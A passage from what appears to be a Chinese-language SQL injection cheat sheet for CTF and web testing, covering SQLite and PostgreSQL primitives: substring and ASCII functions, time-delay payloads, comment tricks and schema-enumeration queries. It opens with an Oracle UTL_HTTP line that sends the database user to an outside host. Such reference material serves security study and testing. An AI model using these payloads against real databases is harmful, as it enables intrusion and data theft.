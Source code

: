  - `UTL_HTTP.request('http://kaibro.tw/'||(select user from dual))=1`

## SQLite

- 子字串：
  - `substr(“abc",1,1)   =>   'a'`
- Ascii function:
  - `unicode('d') => 100`
- legth
  - `length('ab') => 2`
- Concatenation
  - `||`
  - `'a' || 'b' => 'ab'`
- Time Delay
  - `randomblob(100000000)`
- 空白字元
  - `0A 0D 0C 09 20`
- Case when
  - SQLite沒有`if`
  - 可以用`Case When ... Then ...`代替
  - `case when (條件) then ... else ... end`
- 註解
  - `--`
- 爆表名
  - `SELECT name FROM sqlite_master WHERE type='table'`
- 爆表結構(含Column)
  - `SELECT sql FROM sqlite_master WHERE type='table'`
- 其他
  - `sqlite_version()`
  - sqlite無法使用`\'`跳脫單引號
- Boolean Based: SECCON 2017 qual SqlSRF

<details><summary><b>Click here to view script</b></summary></details>

## PostgreSQL

- 子字串
  - `substr("abc", 1, 1) => 'a'`
- Ascii function
  - `ascii('x') => 120`
- Char function
  - `chr(65) => A`
- Concatenation
  - `||`
  - `'a' || 'b' => 'ab'`
- Delay function
  - `pg_sleep(5)`
  - `GENERATE_SERIES(1, 1000000)`
  - `repeat('a', 10000000)`
- 空白字元
  - `0A 0D 0C 09 20`
- encode / decode
  - `encode('123\\000\\001', 'base64')` => `MTIzAAE=`
  - `decode('MTIzAAE=', 'base64')` => `123\000\001`
- 不支援limit N, M
  - `limit a offset b` 略過前b筆，抓出a筆出來
- 註解
  - `--`
  - `/**/`
- 爆庫名
  - `SELECT datname FROM pg_database`
- 爆表名
  - `SELECT tablename FROM pg_tables WHERE schemaname='dbname'`
- 爆Column
